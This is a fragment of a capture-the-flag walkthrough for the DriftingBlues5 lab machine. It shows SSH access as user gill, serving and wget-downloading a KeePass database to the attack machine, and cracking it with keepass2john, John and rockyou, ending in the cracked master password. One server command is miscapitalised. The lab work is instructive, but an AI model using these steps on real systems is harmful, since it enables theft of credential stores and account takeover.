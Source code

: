 Notice ssh Password

```
ssh gill@192.168.56.103

gill@driftingblues:~$ ls
keyfile.kdbx  user.txt
gill@driftingblues:~$ cat user.txt
flag 1/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░░░░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░░▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█
```

Target machine (driftingblues5)

python3 -m http.Server

* must bin in directory of keyfile.kdbx

Attack machine (kali)

wget http://192.168.56.103:8000/keyfile.kdbx

keepass2john keyfile.kdbx > keyfilepurge.txt
keyfile:$keepass$*2*60000*0*86fe1a63955b5984c0ad76a21f0*e99d45aab90c26200191dbca6b3fae34*e3169392c5eec5e094b1f22a01084f894598280874de2bf8291ea2185051f7e3*78d0b1eb59343754ce0ce33b2efb5e25c595317099a65ed208bfc2f6ab8c8dcd

*https://tzusec.com/cracking-keepass-database/* (resource)

john --wordlist=/usr/share/wordlists/rockyou.txt keyfilepurge.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
No password hashes left to crack (see FAQ)

john --show keyfilepurge.txt                                     
keyfile:porsiempre
